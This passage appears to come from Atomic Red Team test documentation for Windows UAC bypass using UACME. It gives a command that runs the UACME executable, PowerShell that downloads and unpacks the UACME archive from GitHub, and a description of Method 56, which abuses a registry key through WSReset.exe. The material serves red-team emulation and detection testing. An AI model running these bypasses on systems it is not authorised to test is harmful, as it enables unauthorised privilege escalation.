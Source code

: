
#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```




<br/>
<br/>

## Atomic Test #15 - UACME Bypass Method 56
Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: Hashim Jawad

Type:	Shell API

Method: Registry key manipulation

Target:	\system32\WSReset.exe

Component:	Attacker defined

Implementation:	ucmShellRegModMethod

